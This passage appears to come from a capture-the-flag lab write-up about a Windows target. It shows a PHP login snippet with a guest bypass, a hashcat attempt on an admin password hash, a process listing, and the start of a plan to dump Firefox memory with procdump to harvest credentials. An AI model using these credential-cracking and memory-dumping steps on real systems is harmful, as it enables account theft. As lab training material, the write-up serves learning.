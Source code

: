 ```php
        }
        else
                header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
        if( $_GET['guest'] === 'true' ) {
                $_SESSION['guest'] = "valid";
                header('Location: issues.php');
        }
}

?>
```
Ok we found the password hash of the admin!  
Let's check if it's a common password via hashcat:
```
hashcat -m 1400 "91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040" rockyou.txt --show
```
Nope, unfortunately, it seems to be a somewhat secure password

#### Processes
Let's run ps to see running processes
```
 Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    147       9     6640       3576              6696   0 conhost
    480      19     2288       5516               412   0 csrss
    294      17     2324       5284               500   1 csrss
    358      15     3552      14596              5420   1 ctfmon
    254      14     4088      13520              3976   0 dllhost
    164       9     1896       9844       0.34   6952   1 dllhost
    616      32    33756      58860                80   1 dwm
   1497      58    23664      78836              5772   1 explorer
    390      29    23904      57444       9.17   6188   1 firefox
    358      26    16368      37624       0.72   6300   1 firefox
   1254      68   109580     182820      15.20   6488   1 firefox
    343      19     9972      37448       0.14   6612   1 firefox
    407      32    16956      62636       0.88   6868   1 firefox
```

Firefox could be interesting, it seems to be doing something with 15.2% CPU usage  
Sysinternals provides various tools to interact with windows processes.  
Get them from https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite


I'm mostly interesting in dumping the firefox processes memory, we can run procdump to do that:
We'll transfer the file and run it, the first time we need to accept the EULA (fun fact, this will create a registry key, so check your windows machine if you've been pwned 😉)

```
.\procdump64.exe -accepteula
```
I used the following resource to check how it works:
https://securityonline.info/procdump-dump-https-pasword/
